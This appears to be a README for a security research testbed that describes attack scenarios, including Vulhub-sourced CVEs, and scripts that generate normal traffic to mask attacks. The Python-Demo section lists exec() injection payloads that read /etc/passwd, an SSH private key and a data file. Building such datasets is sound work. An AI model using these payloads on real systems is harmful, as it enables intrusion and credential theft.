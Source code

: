  # Scenario Descriptions

Most of the vulnerability scenarios are sourced from Vulhub (vulhub.org). Therefore, for the attack steps related to these scenarios, we have directly provided the URLs to their attack descriptions.

## 1. Python-Demo

Description: A self-designed Python FastAPI application.

### Attack Steps

Refer to `example/python-demo/users/attack2.py`. The attack steps are as follows:

```
exec("import os;global a;a=os.path.abspath(os.curdir)")
exec("import os;import subprocess;os.chdir('..');os.chdir('..');os.chdir('..');os.chdir('tmp');subprocess.run(['touch', 'flag'])")
exec("import os;import subprocess;os.chdir('..');os.chdir('etc');global a;f=open('passwd','r');a=f.read();f.close()")
exec("import os;os.chdir('..');os.chdir('/');os.chdir('app');global a;a=os.listdir('.')")
exec("import os;global a;a=os.listdir('.ssh')")
exec("import os;os.chdir('.ssh');global a;f=open('id_ed25519','r');a=f.read();f.close()")
exec("import os;os.chdir('..');os.chdir('data');global a;a=os.listdir('.')")
exec("import os;global a;f=open('important_data.txt','r');a=f.read();f.close()")
```

### Normal Traffic Generation

We simultaneously run the following scripts to generate normal traffic and mask the attack behavior:

- `users/test2.py`: Repeatedly executes registration and login functions, and randomly performs operations such as viewing items and checking balance.
- `users/test2_admin.py`: Repeatedly executes administrator-related operations, including admin login, modifying item prices, and performing normal operations on APIs involved in attacks.

## 2. CVE-2022-4223

Description URL: https://github.com/vulhub/vulhub/tree/master/pgadmin/CVE-2022-4223

### Normal Traffic Generation

We simultaneously run the following scripts to generate normal traffic and mask the attack behavior:

- `bot/gen.py`: Uses the script provided by https://github.com/ReconInfoSec/web-traffic-generator.
  - Just a simple (poorly written) Python script that aimlessly "browses" the internet by starting at pre-defined `ROOT_URLS` and randomly "clicking" links on pages until the pre-defined `MAX_DEPTH` is met.
- `bot/normal_1.py`: Login, then repeatedly execute APIs involved in attacks and verify binary paths.
- `bot/normal_2.py`: Repeatedly execute login and file upload operations.
